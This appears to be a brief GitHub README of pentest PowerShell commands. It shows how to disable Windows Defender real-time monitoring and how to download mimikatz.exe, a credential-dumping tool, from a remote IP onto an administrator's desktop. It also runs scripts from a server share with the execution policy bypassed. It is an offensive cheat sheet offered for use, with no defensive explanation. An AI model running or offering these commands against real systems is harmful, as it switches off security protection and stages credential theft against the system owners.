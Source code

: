 # praia_essential_commands
Command for pentest

# Disable Windows Defender on Windows 10 using PowerShell
#### Fire up a PowerShell window as administrator and run the following command:

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true

#### Just set the DisableRealTimeMonitoring back to false to re-enable the real-time monitoring within Defender.

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $false


# File Transfer

PS C:\> powershell.exe wget http://10.10.12.39/mimikatz.exe -outfile C:\users\administrator\desktop\mimikatz.exe

# Running a Powershell function from command line.

#### First Step (Load PS1 file):

PS C:\> powershell.exe -executionpolicy bypass -file "\\#SERVER\Get-RDPCertificate.ps1"

#### Second Step (Execute Function):

PS C:\> powershell.exe -executionpolicy bypass -command {"Get-RDPCertificate -Computername $env:COMPUTERNAME | Out-File -filepath (\\#SERVER\$env:computername-$(get-date -f MM-dd-yy).txt)"}




 
